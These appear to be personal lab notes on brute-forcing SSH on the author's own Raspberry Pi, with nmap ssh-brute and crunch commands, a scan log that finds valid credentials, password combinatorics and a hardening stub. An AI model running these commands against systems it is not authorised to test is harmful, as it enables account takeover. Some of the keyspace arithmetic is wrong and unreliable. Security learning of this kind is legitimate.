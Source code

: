 # Brute Force Attack Raspberry Pi

## Ideas

- write a Python Script to generate passwords
- download a top XX list of the most common passwords
- use a tool to generate passwords

## Questions

- how long does it take to try 100/1000/10.000/1.000.000 passwords?
-

## User NMAP for brute force attack

```
nmap -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt --script-args unpwdb.timelimit=0 192.168.0.217
```

## Check if Port 22 is open

```
nmap -p 22 -open <RASPBERRY-PI-IP-ADDRESS>
```

## Create User File

users.txt:

```
user
admin
root
pi
```

## Create Password File

passwords.txt:

```
123456
root
admin
pi
passwort
```

## Generate Password File with Crunch

```
brew install crunch
```

Create file with generated passwords between 3 and 6 characters:

```
crunch 3 6 0123456789abcdef -o 6chars.txt
```

Run brute force attack:

```
nmap -p 22 --script ssh-brute --script-args userdb=6chars.txt,passdb=6chars.txt <RASPBERRY-PI-IP-ADDRESS>
```

Ergebnis:

```
nmap -p 22 --script ssh-brute --script-args userdb=u.txt,passdb=p.txt 192.168.0.217
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-25 16:23 CET
NSE: [ssh-brute] Trying username/password pair: foo:foo
NSE: [ssh-brute] Trying username/password pair: barz:barz
NSE: [ssh-brute] Trying username/password pair: leo:leo
foo
NSE: [ssh-brute] Trying username/password pair: foo:hi
hi
NSE: [ssh-brute] Trying username/password pair: barz:hi
NSE: [ssh-brute] Trying username/password pair: leo:hi
NSE: [ssh-brute] Trying username/password pair: foo:for
NSE: [ssh-brute] Trying username/password pair: barz:for
NSE: [ssh-brute] Trying username/password pair: leo:for
NSE: [ssh-brute] Trying username/password pair: foo:1234
NSE: [ssh-brute] Trying username/password pair: barz:1234
NSE: [ssh-brute] Trying username/password pair: leo:1234
Nmap scan report for raspberrypi (192.168.0.217)
Host is up (0.013s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute:
|   Accounts:
|     leo:1234 - Valid credentials
|_  Statistics: Performed 12 guesses in 9 seconds, average tps: 1.3

Nmap done: 1 IP address (1 host up) scanned in 9.05 seconds
```

NMAP with no time limit:

```
nmap -p 22 --script ssh-brute --script-args userdb=6chars.txt,passdb=6chars.txt,unpwdb.timelimit=0 192.168.0.217
```

http://blog.wenzlaff.de/?p=16896

Anzahl Möglichkeiten:

- a-z: 26^4 = 456972
- a-z & A-Z 52^4 = 7311616
- a-z & A-Z & 0-9 = 13845841

## Combinatorics

Why is the math behind this important?

- characters: 1 / character-set: 0-9 = 10 possible passwords
- characters: 2 / character-set: 0-9 = 10^2 = 100 possible passwords
- characters: 3 / character-set: 0-9 = 10^3 = 1.000 possible passwords
- characters: 4 / character-set: 0-9 = 10^4 = 10.000 possible passwords
- characters: 5 / character-set: 0-9 = 10^5 = 100.000 possible passwords = 27 Std.
- characters: 6 / character-set: a-z A-Z 0-9 = 62^6 =

-> <CHARACTER-SET> ^ <NUMBER-OF-CHARACTERS>

Further reading: https://www.scientificamerican.com/article/the-mathematics-of-hacking-passwords/

# Lessons Learned
  
- Brute force attacks do not scale if the password and the used alphabet have a sufficient size
- Trying all username/password combinations 
  
# Harden Raspberry Pi

## Firewall

### Install

https://www.blog.berrybase.de/blog/2022/02/23/den-raspberry-pi-absichern/#:~:text=Linux%20hat%20hierf%C3%BCr%20die%20Firewall,Befehl%20aus%20Code%2016%20installieren
